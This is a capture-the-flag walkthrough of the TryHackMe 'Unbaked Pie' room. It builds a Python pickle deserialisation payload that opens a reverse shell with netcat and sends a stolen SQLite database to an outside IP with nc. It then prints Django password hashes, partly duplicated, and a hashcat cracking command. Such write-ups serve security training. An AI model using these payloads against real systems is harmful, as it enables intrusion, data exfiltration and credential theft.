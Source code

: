 # Unbaked Pie

![image](https://user-images.githubusercontent.com/5285547/135349199-38047830-0a14-4914-b35e-962103097322.png)

Room link: https://tryhackme.com/room/unbakedpie

## Enumeration

Nmap 

Starting my enumration with an nmap scan as usual, after a long scan only one port comes back to me, filemaker!?

```
PORT     STATE SERVICE
5003/tcp open  filemaker
```

## Port 5003

![image](https://user-images.githubusercontent.com/5285547/135356072-c5ced1a8-8140-42df-8d63-4ba43fe176ff.png)

Seems to be a website all about pickles and pickle products. 
Typing in the wrong path gave lots of info back from the host. 

![image](https://user-images.githubusercontent.com/5285547/135356353-88a8b03a-fc30-4a43-9643-41d5aa543eac.png)

![image](https://user-images.githubusercontent.com/5285547/135356371-a2862edc-20e7-4789-aed5-5fcc8afecab0.png)

## Pickle (python) (Decode)

Looking about the web app I notice in burp suite the request headers also point to python

![image](https://user-images.githubusercontent.com/5285547/135357480-734281a9-a09f-4af8-b86c-b90da5b7beb5.png)

When using the search feature on the site we can see a cookie being set (maybe also being deseralised) 

![image](https://user-images.githubusercontent.com/5285547/135357550-509b26c2-4449-459f-b1f8-fbcdb70a6985.png)

Set-Cookie

```
gASVCgAAAAAAAACMBmFzZGFzZJQu
```

Decoding the cookie value using python pickle

![image](https://user-images.githubusercontent.com/5285547/135357609-2b7aee9e-905f-486a-9064-e6b40d8b3c4f.png)

```
import pickle
import base64


string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
string_val = base64.b64decode(string_val)
d = pickle.loads(string_val)
print(d)
```

## RCE (Encode)

Using this [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) article which helps to get a better understanding of the python pickle rce. We can craft a payload to work here. 

Original RCE code

```
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Root (container)

Editing the code we can get RCE via the serilization. 

```
import pickle
import base64


#string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
#string_val = base64.b64decode(string_val)
#d = pickle.loads(string_val)
#print(d)

import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc -e /bin/sh IP PORT')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

```
python3 pickl3.py
b'gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uYyAtZSAvYmluL3NoIDEwLjguMTUzLjEyMCA5OTk5lIWUUpQu'
```

Swapping the cookie and calling /search (GET) we can get the code exection. 

![image](https://user-images.githubusercontent.com/5285547/135358609-2ad8541c-2223-466d-96b0-64f1262c1875.png)

After getting on we can update our shell. 

```
python3 -c "import pty;pty.spawn('/bin/bash')"
stty raw -echo;fg
reset
xterm
```

Now we can enumerate again to find more information. 

## Enumeration 2

In the /root folder in .bash_history we find some juicy data

```
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
exit
cd /tmp
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
chmod +x check-config.sh
./check-config.sh 
nano /etc/default/grub
vi /etc/default/grub
apt install vi
apt update
apt install vi
apt install vim
apt install nano
nano /etc/default/grub
grub-update
apt install grub-update
apt-get install --reinstall grub
grub-update
exit
ssh ramsey@172.17.0.1
exit
ssh ramsey@172.17.0.1
exit
ls
cd site/
ls
cd bakery/
ls
nano settings.py 
exit
ls
cd site/
ls
cd bakery/
nano settings.py 
exit
apt remove --purge ssh
ssh
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh=*
apt remove --purge autoremove openssh-*
ssh
apt autoremove openssh-client
clear
ssh
ssh
ssh
exit
```


In /home/site we find an intresting file called db.sqlite3. Lets get it on our box and see what secrets it holds! 

```
# our box
nc -lnvp 8082 > db.sqlite3 

# attack box
nc 10.8.153.120 8082 < db.sqlite3
```

Now lets go through the file. 

```
sqlite3 db.sqlite3

SQLite version 3.36.0 2021-06-18 18:36:39
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions

sqlite> select * from auth_user;

1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|
```

Now we can crack the hash's for these accounts. 

```
pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=:aniqfakhrul
pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=:testing
pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=:ramsey
pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=:oliver
pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=:wan:aniqfakhrul
pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=:testing
pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=:ramsey
pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=:oliver
pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=:wan
```

Cracking with hashcat
```
hashcat -a 0 -m 10000 hash /usr/share/wordlists/rockyou.txt -O  
```
